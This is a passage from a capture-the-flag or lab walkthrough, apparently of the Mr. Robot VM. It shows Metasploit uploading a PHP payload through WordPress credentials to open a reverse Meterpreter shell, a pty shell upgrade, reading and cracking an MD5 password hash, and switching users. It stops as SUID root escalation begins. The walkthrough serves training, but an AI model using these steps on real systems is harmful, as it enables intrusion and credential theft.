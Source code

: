 The Metasploit framework successfully exploited the target and opened a `Meterpreter` session:
```
[*] Started reverse TCP handler on 192.168.56.107:4444 
[*] Authenticating with WordPress using Elliot:ER28-0652...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/MgTvflELdd/wFesBjAfqE.php...
[*] Sending stage (39927 bytes) to 192.168.56.108
[*] Meterpreter session 1 opened (192.168.56.107:4444 -> 192.168.56.108:55744) at 2024-09-03 11:31:23 -0400
[!] This exploit may require manual cleanup of 'wFesBjAfqE.php' on the target
[!] This exploit may require manual cleanup of 'MgTvflELdd.php' on the target
[!] This exploit may require manual cleanup of '../MgTvflELdd' on the target

meterpreter > shell

python -c 'import pty; pty.spawn("/bin/bash")'
```

With this command, I spawned a bash shell on the target machine, allowing me to interact directly with the system.

# Escalating Privileges
Once inside the target system, I navigated to the home directory and found a user called `robot`. Inside the `robot` user’s directory, there was a file called `password.raw-md5`, which contained an MD5 hash of a password:
```
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

MD5 is a hashing algorithm that converts data (like passwords) into a fixed-length hash value. Although MD5 is not considered secure for modern cryptography, it’s still commonly encountered in older systems.

I then used an online tool, [CrackStation](https://crackstation.net/), to crack the MD5 hash. The password was revealed as:
```
abcdefghijklmnopqrstuvwxyz
```

Now that I had the password, I used it to switch to the `robot` user:
```
su robot 
Password: abcdefghijklmnopqrstuvwxyz
```

# Root Privilege Escalation
The final step in this penetration test was to elevate privileges to gain root access. I searched for files with the SUID bit set, which allows a program to run with elevated privileges. Some files have this bit set by default, but occasionally, there are misconfigurations that can be exploited.
